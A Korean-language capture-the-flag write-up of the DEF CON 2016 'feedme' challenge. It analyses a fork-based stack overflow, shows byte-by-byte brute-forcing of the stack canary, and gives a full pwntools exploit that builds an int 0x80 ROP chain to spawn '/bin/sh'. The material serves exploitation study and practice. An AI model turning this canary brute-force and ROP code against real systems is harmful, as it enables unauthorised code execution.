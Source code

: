 ```yaml
---
title: "2016 Defcon Feedme"
date: 2019-12-26
tags: [Defcon]
categories: [Defcon]
---
```


```
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

바이너리 stripped 되어있고 statically linked라 좀 분석하기 어려워졌다.

`0x0804917A` 여기가 메인 함수고 메인함수에서는 그냥 signal함수를 이용해 SIGALARM을 150초 설정해놨다. 

그 이후  `sub_80490B0` 함수를 호출하는데 이 함수에서는 fork를 이용해 자식 프로세스를 생성한다. 0x31F번을 반복하는데 이 곳에서 우리가 입력받는 함수도 호출해준다. 

```c
int sub_8049036()
{
  unsigned __int8 v0; // ST1B_1
  char *v1; // eax
  int result; // eax
  char v3; // [esp+1Ch] [ebp-2Ch]
  unsigned int v4; // [esp+3Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  sub_804FC60("FEED ME!"); // puts
  v0 = sub_8048E42(); // size
  sub_8048E7E(&v3, v0); // input
  v1 = sub_8048F6E(&v3, v0, 0x10u); // convert 10 -> 16
  sub_804F700("ATE %s\n", v1); // printf
  result = v0;
  if ( __readgsdword(0x14u) != v4 )
    sub_806F5B0();
  return result;
}
```

여기가 우리가 입력받는 함수다. canary가 걸려있다. 

`sub_8048E42()` 함수는 입력한 문자열의 아스키 값을 v0에 저장한다. 

 `sub_8048E7E` 함수에서는 v0의 크기만큼을 입력을 받는데 v3 버퍼에 저장해준다.

`sub_8048F6E` 요기서 16진수 hex값으로 변환해준다. 

`sub_806F5B0()` 여기는 그냥 카나리 값 비교해주고 stack smashing detect 띄워주는 곳이다.

여기서 취약점 터진다. 카나리를 제외하고 buf 크기는 0x20만큼이다. 근데 여기서 buf 다음에 카나리가 있어서 canary 값을 1 byte bruteforce해줘서 canary leak해 줄 수 있다. 그리고 fork를 사용하기 때문에 카나리가 고정 값이다. `stack smashing detected` 가 안 뜰때 까지 bruteforing 해주면 된다.

익스는 그냥 statically linked 바이너리라 웬만한 가젯들이 다 있어서 syscall을 위한 가젯들이 다 있을거다.

 `int0x80 ret;  pop eax ret; pop ebx pop ecx pop ebx ret;` 이 가젯들 이용해서 syscall 다 맞춰줘서 read 이용해 bss영역에 `/bin/sh\x00` 을 넣고 `execve` 함수 이용해서 익스했다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'

e = ELF('./feedme')
p = process('./feedme')

peax = 0x080bb496 # pop eax ; ret
pop3ret = 0x0806f370 # pop edx ; pop ecx ; pop ebx ; ret
int0x80 = 0x0806fa20 # int 0x80 ; ret  ;  (1 found)

canary = ''
p.recvuntil('FEED ME!\n')
for j in range(0,4):
	for i in range(0,256):
		go = 'A'*0x20+canary+chr(i)
		p.send(chr(len(go)))
		p.send(go)
		if not 'stack smashing detected' in p.recvuntil("FEED ME!\n"):
			canary += chr(i)
			print canary
			break
log.info('canary : ' + canary)

payload = 'A'*0x20
payload += canary
payload += 'B'*12
payload += p32(peax) + p32(0x3)
payload += p32(pop3ret) + p32(10) + p32(e.bss()) + p32(0) + p32(int0x80)
payload += p32(peax) + p32(0xb)
payload += p32(pop3ret) + p32(0) + p32(0) + p32(e.bss()) + p32(int0x80)

p.send(chr(len(payload)))
p.send(payload)
sleep(0.1)
p.send('/bin/sh\x00')

p.interactive()
```





